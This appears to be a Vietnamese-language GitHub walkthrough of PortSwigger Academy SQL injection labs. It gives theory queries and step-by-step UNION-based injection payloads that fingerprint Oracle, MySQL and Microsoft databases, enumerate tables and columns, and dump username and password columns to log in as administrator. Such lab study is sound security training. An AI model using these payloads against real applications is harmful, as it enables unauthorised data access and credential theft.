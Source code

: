 I. Querying the database type and version<br>
1. Lý thuyết<br>
+ Microsoft, MySQL	SELECT @@version
+ Oracle	SELECT * FROM v$version
+ PostgreSQL	SELECT version()<br>

2. Lab: SQL injection attack, querying the database type and version on Oracle<br>
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
To solve the lab, display the database version string.<br>
https://portswigger.net/academy/labs/launch/974bd9df06352f8b59c679f854a5bc7e3db6c7fb83f72db653509252a6d47e28?referrer=%2fweb-security%2fsql-injection%2fexamining-the-database%2flab-querying-database-version-oracle<br>

3. Giải<br>
+ 2 cột đều thỏa mãn
+ lấy in4 version trên Oracle -> cột BANNER
+ [https://0a16005104b45b0a8096e9dc000c0001.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories%20%27+UNION+SELECT+BANNER,+NULL+FROM+v$version--](https://0a1e00a7041913a380a8c6e800ea00b2.web-security-academy.net/filter?category=Accessories%20%27+UNION+SELECT+BANNER,+NULL+FROM+v$version--)
+ NULL dùng để đảm bảo số cột<br>

4. Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft<br>
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
To solve the lab, display the database version string.<br>

5. Giải<br>
+ trong MySQL comment cần (#) or (--) đi kèm khoảng trắng
+ dùng burpsuite chặn truy cập và chỉnh sửa<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/f382f7e1-6418-4579-94a5-433aacb0c088)<br>

-> phát hiện 2 cột can tạo string<br>
+ GET /filter?category=Accessories 'UNION+SELECT+@@version,+NULL<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/cbb334ed-0fc2-4f67-a415-1908ec0110ad)<br>

II. Listing the contents of the database<br>
1. Lý thuyết<br>
+ SELECT * FROM information_schema.tables -> xem danh sách bảng<br>
-> có các cột: TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE<br>
+ SELECT * FROM information_schema.columns WHERE table_name = 'Users' -> xem danh sách các cột của bảng có tên Users<br>
-> có các cột: TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE<br>

2. Lab: SQL injection attack, listing the database contents on non-Oracle databases<br>
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned
in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords.
You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
To solve the lab, log in as the administrator user.<br>
https://portswigger.net/academy/labs/launch/81986add1fa6ec438867539cc2f562f01dcf9faf6a0b82766269c3dbeef30b00?referrer=%2fweb-security%2fsql-injection%2fexamining-the-database%2flab-listing-database-contents-non-oracle<br>

3. Giải<br>
+ tìm ra số cột có là 2 cột và cả 2 cột can tạo string
+ liệt kê tên table trong database: GET /filter?category=Gifts 'UNION SELECT table_name,NULL FROM information_schema.tables-- <br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/7bd412c2-b6fb-4744-a884-3da828b8fedb)<br>

+ tìm ra đc bảng: users_fwaatj -> tìm các cột trong bảng này
+ truy vấn: GET /filter?category=Gifts 'UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_fwaatj'<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/225db2b5-68e1-4794-8f08-02fc6886cac4)<br>

+ lấy username, password từ bảng này: GET /filter?category=Gifts 'UNION SELECT password_mduiwb,username_flbaww FROM users_fwaatj-- <br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/06c99c83-2cd2-485a-9bc9-c5d3b8d6083c)<br>

+ login tài khoản administrator<br>

III. Listing the contents of an Oracle database<br>
1. Lý thuyết<br>
+ liệt kê all bảng: SELECT * FROM all_tables
+ liệt kê cột trong bảng: SELECT * FROM all_tab_columns WHERE table_name = 'USERS'<br>

2. Lab: SQL injection attack, listing the database contents on Oracle<br>
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned
in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords. You need to
determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
To solve the lab, log in as the administrator user.<br>
https://portswigger.net/academy/labs/launch/de4256d42cc604a2a3f7e792c5fff88df1712f1537cd506ed2537efedbd4c665?referrer=%2fweb-security%2fsql-injection%2fexamining-the-database%2flab-listing-database-contents-oracle<br>

3. Giải<br>
+ tìm số cột có và can tạo string: GET /filter?category=Corporate+gifts 'UNION+SELECT+'a','a' FROM dual-- <br>
-> có 2 cột<br>
+ liệt kê all bảng: GET /filter?category=Corporate+gifts 'UNION SELECT table_name,NULL FROM all_tables--<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/8ead9a62-f64a-4580-9e1e-221e3034463c)<br>

+ tìm ra đc bảng: USERS_DFIRUZ<br>
-> tìm các cột trong bảng: GET /filter?category=Corporate+gifts 'UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name = 'USERS_DFIRUZ'-- <br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/a79ed34f-424c-491f-a852-a14ad36bf1f1)<br>

+ lấy in4 từ các cột: GET /filter?category=Corporate+gifts 'UNION SELECT PASSWORD_NQTQDP,USERNAME_LKBOQS FROM  USERS_DFIRUZ-- <br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/0bc7ddd6-8141-4eda-9184-7abf2d486122)<br>

+ login tài khoản administrator<br>






